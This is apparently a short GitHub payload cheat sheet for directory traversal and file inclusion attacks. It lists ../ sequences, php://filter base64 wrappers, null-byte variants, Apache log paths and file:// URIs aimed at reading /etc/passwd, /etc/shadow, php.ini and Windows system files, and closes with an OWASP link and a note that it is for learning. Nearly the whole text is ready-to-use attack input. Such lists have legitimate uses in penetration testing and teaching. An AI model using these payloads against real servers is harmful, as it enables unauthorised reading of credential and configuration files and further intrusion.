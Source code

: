 **Directory Traversal:**

*satyam mavi*

../../../../../../etc/passwd
../../../etc/shadow
../../../../../../etc/hosts
../../../../../../etc/hostname

# PHP Wrappers:
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/convert.base64-encode/resource=/etc/shadow
php://filter/convert.base64-encode/resource=/etc/hosts
php://filter/convert.base64-encode/resource=/etc/php.ini



# Null Byte Injection:
/etc/passwd%00
/etc/shadow%00
/etc/hosts%00
/etc/php.ini%00

# Apache Log File Inclusion:
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log

# Arbitrary File Inclusion:
file:///etc/passwd
file:///etc/shadow
file:///etc/hosts
file:///etc/php.ini

# Windows File Inclusion:
C:/windows/system32/drivers/etc/hosts
C:/boot.ini
file:///C:/windows/win.ini

# reference
**link**
owasp.org/www-community/attacks/Path_Traversal
**this link for learning education**
